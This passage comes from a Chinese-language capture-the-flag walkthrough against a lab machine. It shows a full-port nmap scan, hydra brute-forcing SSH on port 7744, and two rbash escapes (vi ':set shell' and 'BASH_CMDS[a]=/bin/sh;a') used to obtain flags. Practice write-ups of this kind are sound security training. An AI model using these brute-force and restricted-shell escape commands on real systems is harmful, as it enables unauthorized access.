 　　卡了许久，完全没思路，后来看了其他大佬的教程，得知靶机开放了其他端口，可见信息搜集的重要性
　　`nmap -p1-65535 10.16.122.1`
　　<img src="https://s1.ax1x.com/2020/10/31/BaC6UA.png">
　　全端口扫描后得到开放了7744，发现其实是ssh服务
　　<img src="https://s1.ax1x.com/2020/10/31/BaPZrD.png">
　　接下来还是使用hydra爆破ssh
　　`hydra -L user.txt -P pwd.txt -s 7744 10.16.122.1 ssh`,你会发现tom的ssh的登陆密码和web登陆密码是一模一样的
　　<img src="https://s1.ax1x.com/2020/10/31/BaFknO.png">

### flag3
　　直接ls发现flag3
　　<img src="https://s1.ax1x.com/2020/10/31/BakpVg.png">
　　使用cat flag3.txt出现命令未找到
　　<img src="https://s1.ax1x.com/2020/10/31/BakXFJ.png">
　　发现是rbash简单点说，就是只能使用一部分命令，发现vi命令可以查看flag3
　　<img src="https://s1.ax1x.com/2020/10/31/BaAAFH.png">
　　这里也可以使用echo+vi查看文件和文件夹，这样也得到了flag4
　　<img src="https://s1.ax1x.com/2020/10/31/BaE99s.png">
　　继续上面的flag3，提示用jerry用户登陆，那么现在就要绕过rbash
　　网上找了很多vi命令的绕过，都写的云里雾里的，这里给出详细过程
　　1.vi 绕过
```bash
vi
:set shell=/bin/bash
:shell
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
```
　　进入vi命令行模式后，输入后:set shell=/bin/bash回车
　　<img src="https://s1.ax1x.com/2020/10/31/BaVqw8.png">
　　这里光标会跑到第一行，不用管它
　　<img src="https://s1.ax1x.com/2020/10/31/BaeQvn.png" height="50%">
　　继续进入命令行，输入:shell，回车后，会得到一个shell
　　<img src="https://s1.ax1x.com/2020/10/31/BatpcV.png">
　　<img src="https://s1.ax1x.com/2020/10/31/BamQiD.png">
　　咋一看跟原来的一模一样，不急依次输入
　　export PATH=$PATH:/bin/
　　export PATH=$PATH:/usr/bin
　　这两条命令后，已经绕过了rbash了，并且成功使用cat命令
　　<img src="https://s1.ax1x.com/2020/10/31/BamjYD.png">

　　2.BASH_CMDS[a]=/bin/sh;a 绕过

```bash
BASH_CMDS[a]=/bin/sh;a
export PATH=$PATH:/bin/
export PATH=$PATH:/usr/bin
```
　　<img src="https://s1.ax1x.com/2020/10/31/Ban8tU.png">
